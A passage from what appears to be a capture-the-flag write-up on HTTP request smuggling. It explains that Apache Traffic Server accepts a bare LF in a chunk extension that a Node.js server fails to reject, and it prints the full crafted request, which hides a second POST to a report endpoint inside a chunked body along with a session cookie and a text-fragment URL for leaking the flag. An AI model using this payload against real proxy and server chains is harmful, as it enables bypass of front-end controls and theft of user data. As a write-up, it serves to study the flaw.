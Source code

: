 A chunk extension is used here: `3;\nxxx`. The issue is two-pronged:

1. ATS parses the LF (`\n`) as a line terminator (instead of the CRLF sequence) and forwards it.
2. The Node.js HTTP server does not check if the chunk extension contains the illegal LF character.

So ATS sees the following request:

```http
GET / HTTP/1.1
Host: localhost:8080
Transfer-Encoding: chunked

3;
xxx
139
0

POST /do-report HTTP/1.1
Host: localhost:8080
Content-Length: 103
Cookie: connect.sid=s%3A4Tp_E2HJcMliL0-HBIe2gRJe0STpIOZW.hoetvVdAqJdACwI4BwIrHCmQR1nPjgY2YOxQMbJsDmU
Content-Type: application/json

{"url":"http://localhost:8000/verify?token=TISC{c:n:9:4:i:7:c:n:e:m}#:~:text=TISC{1:3:3:7:l:3:4:k:1:a"}
0
```

Notice that here, the `POST /do-report HTTP/1.1` request is encapsulated as part of the chunked request body of the first request (and therefore not seen by ATS as a separate request).

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>
